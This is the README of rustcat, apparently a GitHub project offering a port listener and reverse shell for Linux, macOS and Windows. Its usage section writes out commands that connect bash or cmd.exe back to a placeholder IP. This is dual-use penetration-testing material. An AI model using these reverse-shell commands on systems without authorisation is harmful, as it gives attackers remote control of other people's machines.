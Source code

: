 <div align="center">
      <h1>rustcat - The modern port listener and reverse shell </h1>
</div>

<p align="center">
	<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads" />
  	<a href="https://aur.archlinux.org/packages/rustcat"><img alt="AUR version" src="https://img.shields.io/aur/version/rustcat" /></a>
  	<img alt="GitHub Issues" src="https://img.shields.io/github/issues/robiot/rustcat.svg" />
  	<img alt="GitHub Contributors" src="https://img.shields.io/github/contributors/robiot/rustcat" /></a>
</p>

## What is Rustcat
Rustcat is an easy to use port listener and reverse shell for Linux, MacOS, and Windows aimed to be easy to use and accessible.

![image](https://user-images.githubusercontent.com/68228472/184684103-87bf3af8-0607-4789-b3a2-09ce67efce55.jpg)

## Modes
- Listen mode (listen);
- Reverse shell mode (connect);

## Features
- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

## Installing
Check out the [Installation Guide](https://github.com/robiot/rustcat/wiki/Installation-Guide). Or if you want to have it portable, check out the [latest release](https://github.com/robiot/rustcat/releases/latest)

## Usage
The most basic and useful example to start listening on a port would be (you can even run vim inside rustcat with this):
```
rcat listen -ib 55600
```
and to connect:
```
rcat connect -s bash the.0.0.ip 55600
```
Reverse shell from Windows:
```
rcat connect -s cmd.exe the.0.0.ip 55600
```

For some more basic usage, check [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)

## Disclaimer
This tool may be used for educational purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.
